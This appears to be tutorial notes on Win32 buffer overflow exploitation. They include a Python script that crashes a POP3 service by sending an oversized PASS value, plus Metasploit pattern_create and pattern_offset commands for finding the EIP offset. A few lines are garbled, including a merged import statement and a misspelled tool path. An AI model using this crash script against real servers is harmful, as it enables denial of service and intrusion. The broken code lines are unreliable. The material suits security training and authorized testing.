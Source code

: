 # Win32 Buffer Overflow Exploitation

### Replicating the Crash

  - Our first task in the exploitation process is to write a simple script that will replicate our observed crash, without having to run the fuzzer each time.

    ```python
    #!/usr/bin/python
    import socket s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    buffer = 'A' * 2700
    try:
      print "\nSending evil buffer..."
      s.connect(('10.0.0.22',110))
      data = s.recv(1024)
      s.send('USER username' +'\r\n')
      data = s.recv(1024)
      s.send('PASS ' + buffer + '\r\n')
      print "\nDone!."
    except:
      print "Could not connect to POP3!"
    ```
### Controlling EIP

  - Getting control of the EIP register is a crucial step of exploit development.

  - For this reason, it is vital that we locate those
  4 A’s that overwrite our EIP register in the buffer.
  - There are two common ways to do this:

    #### Binary Tree Analysis

      - Instead of 2700 A’s, we send 1350 A'ʹs and 1350 B'ʹs.
      - If EIP is overwritten by B'ʹs, we know the four bytes reside in the second half of the buffer.
      - We then change the 1350 B'ʹs to 675 B'ʹs and 675 C'ʹs, and send the buffer again.
      - If EIP is overwritten by C'ʹs, we know that the four bytes reside in the 2000–2700 byte range.
      - We continue splitting the specific buffer until we reach the exact four bytes that overwrite EIP.
      - Mathematically, this should happen in seven iterations.

    #### Sending a Unique String

      - The faster method of identifying these four bytes is to send a unique string of 2700 bytes, identify the 4 bytes that overwrite EIP, and then locate those four bytes in our unique buffer.
      - __pattern_create.rb__ is a Ruby tool for creating and locating such buffers, and can be found as part of the Metasploit Framework exploit development scripts.

        ```shell
        > locate pattern_create
        > /usr/share/metasploit-­‐framework/tools/patte_create.rb 2700
        ```
      - We can now use the companion to pattern_create, pattern_offset.rb, to discover the offset of these specific 4 bytes in our unique byte string.

        ```shell
        # whe got 39694438 after 
        > /usr/share/metasploit-­‐framework/tools/pattern_offset.rb 39694438
        ```
